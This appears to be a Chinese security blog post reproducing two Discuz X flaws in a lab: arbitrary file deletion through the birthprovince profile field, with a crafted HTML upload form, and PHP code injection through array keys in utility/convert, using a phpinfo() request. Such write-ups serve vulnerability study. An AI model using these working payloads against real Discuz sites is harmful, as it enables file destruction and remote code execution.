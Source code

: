 ```yaml
---
layout:     post
title:     Discuz框架 部分漏洞整理
subtitle:   简单复现并记录一下
date:       2021-02-08
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/82327197_p0.jpg
catalog: true
tags:
    - 渗透测试
    - 框架漏洞
---
```



## !X≤3.4任意文件删除漏洞 



先注册用户

![image-20210208190413356](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208190413356.png)



先查看源码 找到`formhash`

![image-20210208190707041](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208190707041.png)



发如下包 `birthprovince` 参数值为删除文件的路径 是相对于`"/data/attachment/profile`而言的路径 

需要跳三层才能到根目录

![image-20210208193910893](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208193910893.png)

`formhash` 为源码里的formhash

![image-20210208190827209](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208190827209.png)

之后再构造如下表单

`formhash`同样为上面的

```html
<form action="http://10.211.55.4/Discuz_X3/upload/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovi
nce]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" id="file" />
<input type="text" name="formhash" value="c87af698"/></p>
<input type="text" name="profilesubmit" value="1"/></p>
<input type="submit" value="Submit" />
</from>
```



之后再选择一张有效图片 否则过不了代码的check 也就触发不了漏洞

![image-20210208192830800](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208192830800.png)



![image-20210208192726504](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208192726504.png)

提交之后就成功删除

![image-20210208193334761](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208193334761.png)



### 命令执行漏洞

但该目录一般不会对外访问，upload 作为网站根目录

![image-20210208211818662](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208211818662.png)

由于对 输入数组的键过滤不严谨导致 输入被写入文件从而命令执行（目前还没修复，一般也不太会出现）

漏洞位置`utility/convert/include/global.func.php`

![image-20210208204923623](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208204923623.png)



触发点位于`utility/convert/index.php`

首先从`index.php`进入`do_config.inc.php` 

![image-20210208205159593](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208205159593.png)

条件1 首先满足`source`正确存在 

![image-20210208205415817](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208205415817.png)

检索一下 存在很多随便选一个即可 如`s=uch2.0_x1.5`

![image-20210208205605728](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208205605728.png)

条件2 然后`$action == 'config'` 即 `a=config`

![image-20210208205939160](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208205939160.png)

条件3 `submitcheck()` 即 `submit=1`

条件4 `newconfig`为数组



满足上面四个条件即可进入`save_config_file`函数

发送如下data数据 将会在 `utility/convert/data/config.inc.php` 创建文件

````
a=config&s=uch2.0_x1.5&submit=1&newconfig['diego']='diego'
````



只有值进行了转译，因此可以代码注入(注入位置为注释部分)

![image-20210208211214461](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208211214461.png)



注入`\r\n phpinfo();?>` url编码后发送如下

```
a=config&s=uch2.0_x1.5&submit=1&newconfig[%0d%0aphpinfo();%3f%3e]=a;
```

![image-20210208211500265](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208211500265.png)



最后访问

![image-20210208211703985](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210208211703985.png)